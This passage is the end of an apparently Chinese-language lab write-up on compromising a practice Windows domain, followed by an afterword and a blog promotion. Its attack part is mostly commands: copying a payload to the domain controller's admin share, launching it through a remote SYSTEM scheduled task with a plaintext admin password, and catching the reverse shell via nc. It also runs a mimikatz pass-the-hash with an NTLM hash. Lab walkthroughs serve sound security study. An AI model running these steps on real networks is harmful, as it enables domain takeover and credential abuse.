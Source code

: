 把马复制到域控机器上

```
shell copy C:\\yukong.exe \\192.168.52.138\\c$
```

然后再用这个写入计划任务的方法去连接，这里马反弹会连不成功，所以使用如下命令

```
shell schtasks /create /tn "test" /tr C:\\yukong.exe /sc once /st 22:14 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2020"
```

挂着 win7 代理

```
proxy nc -vv 192.168.52.138 7777
```

即可弹回 DC 的 shell，然后清除计划任务

```
schtasks /delete /s 192.168.52.138 /tn "test" /f
```

使用 mimikatz 进行 hash 传递

```
mimikatz sekurlsa::pth /domain:god.org /user:administrator /ntlm:81be2f80d568100549beac645d6a7141
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjB9kXWqrFGCF9gP3g1obSbFYQooRNjunKcNNSK8PCIR7ziaV8Ufw3icrQ/640?wx_fmt=png)

查看 DC 的目录

```
shell dir \\192.168.52.138\\c$ //dir
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pjx7S6mANWamttgf4IBPQM8NAoiaEZdd3qRRY4UG1G5u0yAo76svu3ic9g/640?wx_fmt=png)

**0x07 后记**

当然最后获取域控权限的方法还有很多，如 pth 攻击、横向哈希传递、redis 等等，而其中一些地方我用的方法也不是唯一方法，如通过扫描目录发现 cms 进入后台写 shell，用代理将 win7 流量转出来的方法，都很值得学习。  

通过这个靶场不仅锻炼了一些看过但是实战中不知道怎么使用的方法，也提升了自己独立解决问题的能力，也学到了很多新知识，如通过 phpmyadmin 写 shell 等等，用前辈说的话就是：低调求发展，潜心习安全。

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

